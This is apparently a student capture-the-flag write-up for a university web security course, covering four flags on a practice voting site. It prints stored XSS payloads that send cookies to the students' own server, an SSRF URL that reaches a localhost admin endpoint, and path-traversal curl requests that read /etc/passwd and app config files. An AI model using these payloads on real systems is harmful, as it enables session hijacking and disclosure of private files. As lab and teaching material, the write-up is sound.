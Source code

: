 # COMP6843 Break 3

REDACTED (z0000000) and REDACTED (z0000000)

## myvote.ns.agency
### Flags
The flags found were:
#### `BREAK3{771f878354abfaf9365aefcbe7c1091d8307486cff01de5e771240f86a77a491}`
This flag was found by uncovering an XSS vulnerability in the site. Upon registering a new user and examining it's profile, we find that posting a basic `<script>alert(1)</script>` into a comment causes the alert to work indicating that the comments are vulnerable to a stored XSS. Given that the user's profile is has the end point `/profile/59` it is likely that the `59` represents each user and changing the `59` to something else may display another users profile. Usually administrators etc are one of the earliest users so using `1` we get Thomas Phillips account and `2` we get Zain Afzal's account. Notably, they are both Premium Users (Likely admin status). To make use of XSS the target needs to view the page, in our case here, they need to view the comments. One way to tell this is the user responds to the comments. Posting a random message into Thomas Phillip's account got no reply, however posting into Zain's account resulted in his account automatically responding with a `@<user> Thanks for the comment!` indicating that he is viewing the page.

To exploit this, we start our own web server and post a comment in Zain's profile consisting of the following payload:
```
<script>document.write("<img src=http://<our http server>/?c="+document.cookie+"/>")
</script>
```
Taking note of our own cookie (`usertoken`), we see the `GET` request on the http server and get the request with the cookie that isn't ours, replace our existing token and then go back to the home page. This gives us the above flag.


#### `BREAK3{daedd6ef969bb9fb80cc40cfb5fe508b2e66fe17d0be2764f08015ff9f6dbc1a}`
This flag was gained from the hint based on Zain's profile where admin says to Zain **"I vote on every poll that you make. They' great!"** implying that admin will always view polls that Zain made. Going through the polls, we see that **Who is the best simpsons character!?** was created by Zain and therefore there is a good chance that admin views it. Going through the each of the characters on the poll and commenting on their profiles yielded no results. This leaves the details they have on the poll which is their name, mouseover text, and the image itself. Even admin has no right to edit others profiles but we notice with Ralph's mouseover text in that he says "my passwords is my own name." Giving that a go we are able to login to ralph. Observing his profile we notice that his personal name 'Ralph!' is used in both the text and the `alt` attribute in his profile image on the poll. Injecting a `script` tag gets the <> characters encoded but the `alt` attribute is key.

To exploit this we edit Ralph's profile's name with the following payload:
```
" onload="document.write('<img src=' + String.fromCharCode(34)+
'http://<our http server>/cookie?c=' + document.cookie +
String.fromCharCode(34) + '/>');
 ```
We then visit the poll, taken note of the value of our cookie and then examining the server we get the admin's cookie which we substitute with our own and go back to home, getting the flag.

#### `BREAK3{4fb1cc57f1bf94b969b332e16b485d03cbb0ff3787ff3e82e12368646ff86b35}`
This flag was found while exploring the Uploading of Profile Picture functionality of the site. Testing and examining the source code of the page we discovered that the file uploaded must have a `.png` extention, the protocol must be `http` or `file` and that commented out on the source code there is an endpoint called `/admin`. Going to that end point results in a `Host not in whitelist` indicating the potential, with the other discoveries, of an SSRF vulnerability as the `/admin` end point may require access from a particular host, namely `localhost`.

To exploit this, we injected into the profile picture upload field the following payload.
```
http://127.0.0.1/admin?c=.png
```
Grabbing the url of the "broken" image that is now being displayed, we curled it (we don't use the browser as the browser thinks it's an image) giving us the flag. 

#### `BREAK3{a8c5237fc2439d4431e0cb3e32317c38283a80772c1c810d743a5e228875e19f}`
This flag was found also while exploring the Uploading of Profile Picture functionality of the site and was discovered while examining the uploads of images that we tested with (We were initially investigating XSS with PNG files). We noticed that images uploaded had an end point of `/image?name=uploads%2F...` followed by some encrypted text (likely the names of the files encrypted). Profile pictures of the admins were without the `uploads%2F` and the name of the file was unencrypted leading to potentially different locations where images are stored. However, either way, the end point retrieved a filename so we tested the following payload to see if we could get `/etc/passwd`.
```
curl 'https://myvote.ns.agency/image?name=uploads%2F../../etc/passwd' -H
'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-GB,en-US;q=0.9,en;
q=0.8' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML,
like Gecko) Chrome/73.0.3683.103 Safari/537.36' -H 'Accept: image/webp,image/apng,
image/*,*/*;q=0.8'-H 'Referer: https://myvote.ns.agency/profile/59/avatar' -H 
'Cookie: OUTOFSCOPE_COMP6443_SESSION=9369a181-e45d-4756-97d2-a81e60eca546; 
usertoken=.eJwlzEEKgCAQQNG7zDpJaaawc7SPEccQtCRrFd29ouVb_H9BzLwIjHCWtLGv7YDYk6WgGD0
qtNQpNrpX2Dlx2hA5DtBASby-VdhFXp1V9jl6GMn-WDl_00nqAfcD4lIeIQ.XLsgNw.0dwsYqXfpOYQVf7-
ZuLkwFUvN-k' -H 'Connection: keep-alive' --compressed
```
This produced the results of `/etc/passwd` indicating that we have directory traversal and LFI. NOTE: The payload was one string and just broken down for display. Also the `../../` was to get back to the root and was refined down from the initial, much more numerous, version.

To exploit this, we adjusted the `/etc/passwd` for `/proc/self/environ` which give us a whole group of settings including censored flags, however of interest to us was `FLASK_CORE_CONFIG=/app/web/config.py` as this would contain the key used in flask. Adjusting the url for `/app/web/config.py` produced as the above flag as well as the `FLAG_IDS` indicating to us there were 4 flags in this challenge, an XSS, a harder XSS, an SSRF and an LFI.



